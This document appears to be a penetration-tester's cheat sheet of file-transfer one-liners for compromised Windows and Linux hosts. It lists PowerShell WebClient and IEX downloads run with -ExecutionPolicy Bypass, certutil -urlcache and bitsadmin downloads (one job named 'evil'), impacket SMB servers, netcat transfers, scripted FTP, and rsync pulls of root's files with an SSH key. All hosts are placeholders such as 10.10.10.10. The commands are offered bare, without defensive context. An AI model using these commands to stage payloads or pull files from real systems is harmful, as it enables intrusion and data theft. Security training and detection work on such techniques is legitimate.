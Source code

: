 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
    
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'C:\temp\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

------------------------------------------------------------------------------------------------------------------
USING CERTUTIL - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    certutil.exe -urlcache -split -f "http://10.10.10.10/demo.txt" demo.txt

**Web Content Download**

    certutil.exe -encode c:1.txt out.b64 & more .\out.b64

------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**
    
    net use \\10.10.10.10 /u:"user" "123"

**Web Content Download**
    
    copy \\10.10.10.10\share\demo.txt c:\temp\demo.txt  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

SCP-

**Web Content Download**
    
    scp /tmp/demo.txt user@10.10.10.10:/tmp/

**Web Content Download**

    scp demo.txt root@10.10.10.10:/root/

RSYNC-

**Web Content Download**
    
    rsync -av /tmp/centos/ root@192.168.1.120:/root/*

**Web Content Download**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**Web Content Download**

    rsync -av --port 22 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    bitsadmin /transfer n http://10.10.10.10/demo.txt C:\temp\demo.txt

**Web Content Download**
    
    bitsadmin /transfer evil /download /priority high http://10.10.10.10:80/demo.txt c:\temp\demo.txt

**Web Content Download**
    
    powershell.exe -c Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.10/demo.txt" -Destination "C:\temp\demo.txt"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    nc.exe -v 10.10.10.10 443 < demo.txt
------------------------------------------------------------------------------------------------------------------
USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Download**
Replace "demo.txt" to desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo get demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo get demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt
------------------------------------------------------------------------------------------------------------------

 
